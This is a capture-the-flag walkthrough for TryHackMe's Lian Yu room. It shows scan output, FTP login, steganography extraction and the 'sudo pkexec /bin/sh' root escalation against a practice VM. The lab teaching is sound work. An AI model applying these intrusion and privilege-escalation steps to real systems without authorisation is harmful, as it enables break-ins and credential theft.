

# Lian Yu

[Lian Yu](https://tryhackme.com/room/lianyu) is a great beginner level room on TryHackMe. I found this room really good in term of correlating all the information you have right in front of you. Though the room is themed on Arrow TV Series, one does not need prior knowledge of Arrow. This room requires basic knowledge on directory traversal, steganography and most importantly as I mentioned earlier **useful information**.

So, let's begin!


### Initial Foot hold

1. ##### Deploy the VM and Start the Enumeration.

As an initial step, we can start an nmap scan along with gobuster scan.

Nmap scan results:

```
root@kali:~# nmap -A -p- -T4 10.10.234.51
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-08 10:42 UTC
Nmap scan report for ip-10-10-234-51.eu-west-1.compute.internal (10.10.234.51)
Host is up (0.00052s latency).
Not shown: 65530 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.2
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp    open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          44112/tcp   status
|   100024  1          46607/tcp6  status
|   100024  1          51310/udp6  status
|_  100024  1          56131/udp   status
44112/tcp open  status  1 (RPC #100024)
MAC Address: 02:0E:3F:4A:FC:E1 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=8/8%OT=21%CT=1%CU=39433%PV=Y%DS=1%DC=D%G=Y%M=020E3F%TM
OS:=5F2E81C5%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=107%TI=Z%CI=I%II=I%
OS:TS=8)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW
OS:7%O5=M2301ST11NW7%O6=M2301ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68
OS:DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=
OS:40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%
OS:O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=4
OS:0%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%
OS:Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=
OS:Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.52 ms ip-10-10-234-51.eu-west-1.compute.internal (10.10.234.51)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.32 seconds
```

From these results, we can see that FTP, SSH and HTTP ports are open on the machine. Considering port 80, we can visit the IP address to look for some information as well as run a directory traversal attack using `goBuster`.


On the homegage, we don't find any useful information but a brief about who Arrow was and how he is realted to Lian Yu island. Also, we can see a note from the room creator at the bottom. So, we can move on to gobuster to look for any hidden directories. 

2. ##### What is the Web Directory you found?

```
root@kali:~# gobuster dir --url http://10.10.234.51 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.234.51
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/08 10:48:14 Starting gobuster
===============================================================
/island (Status: 301)
/server-status (Status: 403)
===============================================================
2020/08/08 10:48:30 Finished
===============================================================
```

Here, we can see that a directory named `/island` has been detected. We can visit this directory on our browser to see if we find some information over there.


And we do find a hidden value, `vigilante`. But as of now, we don't know how it can be used and what does it indicate but we can store it for further use. Also, we can use again run a directory traversal search for `/island` directory and see if there are some other hidden files or directories present in there. 

```
root@kali:~# gobuster dir --url http://10.10.234.51/island --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.234.51/island
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/08 10:51:45 Starting gobuster
===============================================================
/XXXX (Status: 301)
===============================================================
2020/08/08 10:52:03 Finished
===============================================================
```

So, we've found another directory that is the answer to the second question, also we can go and look into.

3. ##### what is the file name you found?

When we browse through the newly found directory, in the source-code we can see something related to a ticket. 



It asks us where can we find the ticket. At this point, I was confused for sometime as I had already ran a directory traversal scan and did not find anything other than this directory. Also, on this page itself there isn't much information related to any ticket. But suddenly the idea to look for a `.ticket` file came to my mind and I started another gobuster scan with the same.

```
===============================================================
root@kali:~# gobuster dir -u http://10.10.234.51/island/XXXX -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .ticket
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.234.51/island/XXXX
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     ticket
[+] Timeout:        10s
===============================================================
2020/08/08 11:55:17 Starting gobuster
===============================================================
/88888888888.ticket (Status: 200)
===============================================================
2020/08/08 11:55:54 Finished
===============================================================
```

So, now we have the path to the ticket which is the answer to this question as well. 

4. ##### What is the FTP Password?

We can immediately go and check the contents of this file now:

````
This is just a token to get into Queen's Gambit(Ship)

RTy8yhBQdscX
````

We have a token over here, which appears to be an encrypted string. We can take this string to [CyberChef](https://gchq.github.io/CyberChef/) and different decoding operations on this string.After multiple trial and error attempts, we can determine that this is a `Base58` encoding. Once, the value is encoded we can submit it as the password to the fourth question. 

5. ##### What is the file name with SSH password?

Now, we have two things. The first value 'vigilante' and the FTP password that we get on last question. So, we can try to access FTP on the machine using these credentials as username and password.

```
tester@kali:~/Downloads$ ftp 10.10.234.51
Connected to 10.10.234.51.
220 (vsFTPd 3.0.2)
Name (10.10.234.51:tester): vigilante
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01 03:26 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05 11:10 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01 03:25 aa.jpg
226 Directory send OK.
ftp> cd ..
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------    2 1000     1000         4096 May 01 06:55 slade
drwxr-xr-x    2 1001     1001         4096 May 05 11:10 vigilante
226 Directory send OK.
ftp> 

```

When logged in as 'vigilante', we can see that there are 3 images present in this home directory. We can download all these images and check if there is some hidden information in them. Also, as we did not find the `user.txt` file for the user `vigilante` meant that there was another user on the system which we checked by accessing the  `/home` directory.  

```
?Invalid command
ftp> mget *
mget Leave_me_alone.png? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Leave_me_alone.png (511720 bytes).
226 Transfer complete.
511720 bytes received in 0.01 secs (64.8696 MB/s)
mget Queen's_Gambit.png? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Queen's_Gambit.png (549924 bytes).
226 Transfer complete.
549924 bytes received in 0.01 secs (97.9911 MB/s)
mget aa.jpg? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for aa.jpg (191026 bytes).
226 Transfer complete.
191026 bytes received in 0.00 secs (57.6873 MB/s)
ftp> exit
221 Goodbye.
```

Now that we have all the three images, we look into each of them and also analyze them for steganography.

Out of these three file two of them `aa.jpg` and `Queen's_Gambit.png` open easily but the image `Leave_me_alone.png` does not open. Even on running the command `binwalk -e Leave_me_alone.png`, we don't get any information. The next thing that we can think of is using the command `file` to check what is the actual file-type of this file.

```
root@kali:~# file Leave_me_alone.png 
Leave_me_alone.png: data
root@kali:~# 
```

This command also does not give us any useful information. The next thing we can do is manually check the magic number of this file using `xxd` and search about it on the internet to determine what type of file is this.

```
root@kali:~# xxd Leave_me_alone.png | head
00000000: 5845 6fae 0a0d 1a0a 0000 000d 4948 4452  XEo.........IHDR
00000010: 0000 034d 0000 01db 0806 0000 0017 a371  ...M...........q
00000020: 5b00 0020 0049 4441 5478 9cac bde9 7a24  [.. .IDATx....z$
00000030: 4b6e 2508 33f7 e092 6466 dea5 557b 6934  Kn%.3...df..U{i4
00000040: 6a69 54fd f573 cebc c03c 9c7e b4d4 a556  jiT..s...<.~...V
00000050: 4955 75d7 5c98 5c22 c2dd 6c3e 00e7 c0e0  IUu.\.\"..l>....
00000060: 4e66 a94a 3d71 3f5e 32c9 085f cccd 60c0  Nf.J=q?^2.._..`.
00000070: c1c1 41f9 7ffe dfff bb2f eb22 fab5 aeab  ..A....../."....
00000080: 7d9d cfe7 f81e 5fcb 49ce ed94 7eb7 d8d7  }....._.I...~...
00000090: 723c c9e9 7492 d3d3 494e c793 9c8f 8b2c  r<..t...IN.....,
```

The magic number that we can see here is `5845 6fae 0a0d 1a0a`. We can't find any such magic number, so we can assume that this might just be a wrong value to make this image look corrupted. We can check the  magic number of the other `.png` file that we have downloaded and replace the magic number in Leave_me_alone.png with the magic number of Queen's_Gambit.png as both the file `.png`.

```
root@kali:~# xxd Queen\'s_Gambit.png | head
00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
00000010: 0000 0500 0000 02d0 0806 0000 00cf 7ddd  ..............}.
00000020: 5600 0000 0173 5247 4200 aece 1ce9 0000  V....sRGB.......
00000030: 0159 6954 5874 584d 4c3a 636f 6d2e 6164  .YiTXtXML:com.ad
00000040: 6f62 652e 786d 7000 0000 0000 3c78 3a78  obe.xmp.....<x:x
00000050: 6d70 6d65 7461 2078 6d6c 6e73 3a78 3d22  mpmeta xmlns:x="
00000060: 6164 6f62 653a 6e73 3a6d 6574 612f 2220  adobe:ns:meta/" 
00000070: 783a 786d 7074 6b3d 2258 4d50 2043 6f72  x:xmptk="XMP Cor
00000080: 6520 352e 342e 3022 3e0a 2020 203c 7264  e 5.4.0">.   <rd
00000090: 663a 5244 4620 786d 6c6e 733a 7264 663d  f:RDF xmlns:rdf=
```

Here, we can see that the magic number is `8950 4e47 0d0a 1a0a`. Now, we can replace the magic value of Leave_me_alone.png with this value using `hexeditor`.


And now, we can open the file and find that there is another password. But we don't know what is the use of this password. If we remember properly, we downloaded 3 file out of which one was a `.jpg` filw which can be used for hiding data using steganography. So, we can try to use this obtained password with the file `aa.jpg` and see we can extract some data.

```
root@kali:~$ steghide extract -sf aa.jpg 
Enter passphrase: 
wrote extracted data to "ss.zip".
```

A zip file got extracted from the image which we can unzip and check the content of:

```
tester@kali:~/Downloads$ unzip ss.zip 
Archive:  ss.zip
  inflating: passwd.txt              
  inflating: *****  
```

In the second file we can file the password to the other user on the system, also the name of this file is the answer to the fifth question.

7. ##### user.txt

The next thing that we can do is SSH into `slade`'s account using the password that we obtained in last question.

```
root@kali:~# ssh slade@10.10.234.51
```

Once, logged in we can get our user flag.

```
slade@LianYu:~$ 
slade@LianYu:~$ cat user.txt
******************************
			--Felicity Smoak
```


### Privilege Escalation

8. ##### root.txt

Now, the final task is to escalate our privileges and gain root access to obtain the root  flag. One of the basic steps that we can take for privesc is to see which commands can we run as root. This can be found out using the command `sudo -l`.

```
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

Here, we can see that we can run the `pkexec` command with root privileges. The next thing that we can do is go to [GTFOBins](https://gtfobins.github.io/) and look for any privesc method using this command.

```
slade@LianYu:~$ sudo pkexec /bin/sh
# whoami
root
# pwd
/root
# cat root.txt
```

And there we go! We got the root flag as well and completed the room!


## Some Key Points to Take Away

1. Bruteforce directories recursively.
2. If you find any odd file extension, run a directory bruteforce scan for that file extension.
3. Keep a record of all the values that you find as they might be required in further stages of pentesting.
4. If you find an odd file, check it with `binwalk`, `file` and it's magic number.